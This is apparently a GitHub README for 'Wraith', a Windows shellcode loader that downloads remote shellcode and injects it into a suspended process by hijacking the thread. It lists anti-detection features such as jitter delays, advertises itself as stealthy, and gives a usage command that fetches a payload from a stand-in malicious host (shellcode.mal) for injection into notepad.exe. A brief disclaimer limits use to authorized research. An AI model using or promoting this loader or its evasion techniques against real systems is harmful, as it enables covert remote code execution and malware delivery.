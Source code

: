 # Wraith

_Wraith_ is a minimalist thread hijacking shellcode loader for Windows, designed to be both simple and effective. By leveraging Windows API calls and thread context manipulation, Wraith enables the execution of arbitrary shellcode within a newly spawned and suspended process.

## Features

- **Dynamic Shellcode Downloading:** Fetches shellcode from a user-specified URL at runtime.
- **Thread Hijacking:** Uses context manipulation to redirect the main thread of a suspended process to the shellcode.
- **Jitter Function:** Adds random delays to evade basic behavioral analysis and slow down automated detection.
- **Minimal Dependencies:** Written in standard C using only Windows API and WinINet.
- **Stealthy Execution:** Spawns target processes in suspended mode and only resumes after the shellcode is in place.

## How It Works

1. **Shellcode Download:**  
   Wraith connects to the provided URL and downloads the shellcode into memory.

2. **Process Creation:**  
   It launches the specified target executable (e.g., `notepad.exe`) in suspended mode to avoid immediate execution.

3. **Memory Allocation:**  
   The loader allocates executable memory within the remote process and writes the downloaded shellcode into it.

4. **Thread Context Hijacking:**  
   By obtaining and modifying the main thread's context, Wraith sets the instruction pointer (RIP) to the shellcode's address.

5. **Execution:**  
   Finally, the main thread is resumed, seamlessly transferring execution to the injected shellcode.

## Usage

```bash
Wraith.exe <process_path> <shellcode_url>
```
- `<process_path>`: Path to the executable to spawn and hijack (e.g., `C:\\Windows\\System32\\notepad.exe`).
- `<shellcode_url>`: Direct URL to raw shellcode (should be downloadable as a byte stream).

**Example:**
```bash
Wraith.exe C:\Windows\System32\notepad.exe http://shellcode.mal/shellcode.bin
```

## Code Highlights

- **Jitter Function:** Random delays help break automated timing analysis.
- **WinINet Usage:** Downloads shellcode over HTTP(S), allowing for remote payload delivery.
- **Thread Context Manipulation:** Directly sets `RIP` to shellcode, a classic thread hijacking technique.

## Requirements

- Windows (x64 recommended)
- Visual Studio or MinGW for compilation
- Network connectivity for shellcode download

## Disclaimer

This project is for educational and authorized security research purposes only.  
Running this code on systems you do not own or have explicit permission to test is illegal and unethical.

## License

[MIT License](LICENSE)

---

**Wraith** — Simple. Stealthy. Effective.
